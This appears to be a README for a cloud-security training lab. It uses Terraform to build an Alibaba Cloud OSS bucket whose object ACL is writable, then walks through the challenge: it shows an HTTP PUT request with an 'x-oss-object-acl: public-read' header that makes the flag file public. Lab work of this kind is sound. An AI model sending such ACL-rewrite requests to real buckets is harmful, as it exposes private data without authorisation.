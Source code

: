 # Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenarios for storage bucket objects

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

After confirming that there are no problems, type yes and enter to quickly build

![image-20220425190632275](../../../images/image-20220425190632275.png)

Access the /flag.txt of this bucket directly

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*

![image-20220425190747906](../../../images/image-20220425190747906.png)

The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

Successfully modified the object's ACL, now use the GET method to get

![image-20220425191033750](../../../images/image-20220425191033750.png)

## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction

![image-20220425191136549](../../../images/image-20220425191136549.png)
